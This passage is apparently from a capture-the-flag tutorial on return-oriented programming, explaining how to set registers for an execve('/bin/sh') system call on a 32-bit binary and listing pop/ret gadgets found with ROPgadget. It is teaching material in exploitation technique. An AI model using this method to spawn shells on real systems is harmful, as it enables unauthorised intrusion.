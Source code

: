 
```C
execve("/bin/sh",NULL,NULL)
```



Among them, the program is 32 bit, so we need to make


- System call number, ie eax should be 0xb
- The first parameter, ebx, should point to the address of /bin/sh. In fact, the address of sh can be executed.
- The second parameter, ecx should be 0
- the third parameter, edx should be 0


And how do we control the values of these registers? Here you need to use gadgets. For example, if the top of the stack is now 10, then if pop eax is executed at this time, the value of eax is now 10. But we can't expect a continuous code to control the corresponding registers at the same time, so we need a piece of control, which is why we use ret at the end of the gadgets to control the execution flow again. To find out how to use gadgets, we can use the ropgadgets tool.


First, let's look for gadgets that control eax.


```shell
$ ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```


You can see that all of the above can control eax, and I choose the second one as the gadgets.


Similarly, we can get gadgets that control other registers.


```shell
$ ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
